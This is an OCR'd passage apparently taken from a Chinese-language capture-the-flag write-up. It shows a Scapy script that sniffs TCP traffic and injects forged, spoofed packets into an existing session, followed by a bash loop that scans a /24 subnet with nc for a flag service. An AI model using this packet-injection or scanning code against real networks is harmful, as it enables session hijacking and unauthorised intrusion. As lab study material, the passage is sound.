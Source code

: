 ```python
    # Print packets
    if  "IP" in pkt and "TCP" in pkt["IP"]:
        print("--- PKT: ---")
        print(f"src: {pkt[IP].src}, dst: {pkt[IP].dst}")
        print(f"sport: {pkt[TCP].sport}, dport: {pkt[TCP].dport}")
        print(f"seq: {pkt.seq}, ack: {pkt.ack}")
        print(f"flags: {pkt[TCP].flags}")
        if(Raw in pkt):
            print(f"load: {pkt[Raw].load}")
            #pkt[TCP].dport pkt[IP].dst
            if(pkt[Raw].load[0] == ord("C")):
                sendp(Ether(src=pkt[Ether].dst, dst=pkt[Ether].src) / IP(src=pkt[IP].dst,
                dst=pkt[IP].src) / TCP(sport=pkt[TCP].dport, dport=pkt[TCP].sport, seq=pkt.ack, ack=(pkt.
                seq + len(pkt[Raw].payload)), flags="PA") / Raw(load="FLAG\n"), iface="eth0") # ack这个步骤没有加上len
                print(f"time: {pkt.time}\n")

sniff(prn=inject, iface="eth0")

```







## level 3

写bash脚本的能力还是要学习一下

```bash
# !/bin/sh
subnet="10.0.0"
port=31337

for ip in {0..255}; 
do
    target_ip="$subnet.$ip"
    echo "Trying $target_ip on port $port..." 
    response=$(nc -w 1 $target_ip 31337)
    if [ ! -z "$response" ];then
        echo "Connected to $target_ip"
        echo "Flag: $response"
        break
    fi
done
```





## level 4
